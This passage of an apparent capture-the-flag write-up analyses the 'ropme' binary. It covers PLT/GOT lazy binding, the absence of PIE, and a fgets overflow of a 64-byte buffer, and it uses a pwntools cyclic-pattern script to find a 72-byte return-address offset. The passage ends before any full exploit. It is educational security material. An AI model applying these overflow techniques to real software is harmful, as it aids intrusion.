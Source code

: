 ```c
  004004e6 68 00     PUSH   0x0
           00 00 
           00
  004004eb e9 e0     JMP    FUN_004004d0                   undefined FUN_004004
           ff ff 
           ff
```
The first time calling puts, the address in libc of puts has not yet been loaded (lazy initialization). Therefore we jump to the function called `FUN_004004d0` which finds the address in libc and writes it into the GOT. The second time round we can directly jump to the GOT and to libc (Thanks to [LiveOverflow](https://www.youtube.com/watch?v=kUk5pw4w0h4)). This enables us to get an address leak.<br>
We also notice, that this is not a <ins>p</ins>osition <ins>i</ins>ndependent <ins>e</ins>xecutable (PIE) which means the program will be loaded at the same location in memory every time and the addresses will thus stay the same.
Now onto the binary. Looking at the code in `ghidra`, we see `fgets` reading 500 bytes into a 64 bytes long char, causing the BOF earlier:
{: .text-justify}
```c
undefined8 main(void)

{
  char local_48 [64];
  
  puts("ROP me outside, how \'about dah?");
  fflush(stdout);
  fgets(local_48,500,stdin);
  return 0;
}
```
So we use `pwntools` and attach gdb to analyze the BOF:
```py
from pwn import *

p = process('./ropme')

p.recvline_contains("ROP me outside")

payload = b''
payload += cyclic(0x100, n=8)	# Sufficiently large byte string
pause()				# If this pause() has been reached, we run gdb -p $(pidof ropme)
p.sendline(payload)

p.interactive()
```
`cyclic(0x100, n=8)` creates a 256 bytes long cyclic string consisting of 8 byte long unique substrings. After sending the payload we find the unique substring `0x616161616161616a` inside the stack pointer (RSP) register which contains the address that will moved to the instruction pointer and executed next. With the use of pwntools `cyclic_find` we find out that this string is located after 72 bytes.
{: .text-justify}
```bash
gef➤  x/10wxg $rsp
0x7ffdadd33cd8: 0x616161616161616a
>>> cyclic_find(0x616161616161616a, n=8)
72
```
To make sure everything works as we now repeat the process but replace our payload to `b'A'*72 + b'B'*8`. We now find all eight Bs in the RSP. Nice.
